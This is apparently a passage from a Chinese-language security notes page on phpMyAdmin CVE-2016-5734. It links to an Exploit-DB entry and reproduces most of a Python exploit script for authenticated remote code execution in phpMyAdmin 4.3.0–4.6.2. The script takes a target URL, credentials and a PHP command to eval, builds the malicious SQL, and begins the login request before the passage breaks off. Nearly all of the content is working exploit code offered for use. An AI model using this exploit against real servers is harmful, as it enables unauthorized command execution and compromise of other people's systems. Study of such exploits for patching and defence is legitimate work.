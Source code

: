 #### [PHPMYADMIN]CVE-2016-5734
使用链接中的exp：[phpMyAdmin 4.6.2 - (Authenticated) Remote Code Execution ](https://www.exploit-db.com/exploits/40185)
```python
#!/usr/bin/env python

"""cve-2016-5734.py: PhpMyAdmin 4.3.0 - 4.6.2 authorized user RCE exploit
Details: Working only at PHP 4.3.0-5.4.6 versions, because of regex break with null byte fixed in PHP 5.4.7.
CVE: CVE-2016-5734
Author: https://twitter.com/iamsecurity
run: ./cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
"""

import requests
import argparse
import sys

__author__ = "@iamsecurity"

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("url", type=str, help="URL with path to PMA")
    parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
    parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
    parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
    parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
    parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
    arguments = parser.parse_args()
    url_to_pma = arguments.url
    uname = arguments.user
    upass = arguments.pwd
    if arguments.dbs:
        db = arguments.dbs
    else:
        db = "test"
    token = False
    custom_table = False
    if arguments.table:
        custom_table = True
        table = arguments.table
    else:
        table = "prgpwn"
    if arguments.cmd:
        payload = arguments.cmd
    else:
        payload = "system('uname -a');"

    size = 32
    s = requests.Session()
    # you can manually add proxy support it's very simple ;)
    # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
    s.verify = False
    sql = '''CREATE TABLE `{0}` (
      `first` varchar(10) CHARACTER SET utf8 NOT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
    INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
    '''.format(table)

    # get_token
    resp = s.post(url_to_pma + "/?lang=en", dict(
        pma_username=uname,
        pma_password=upass
```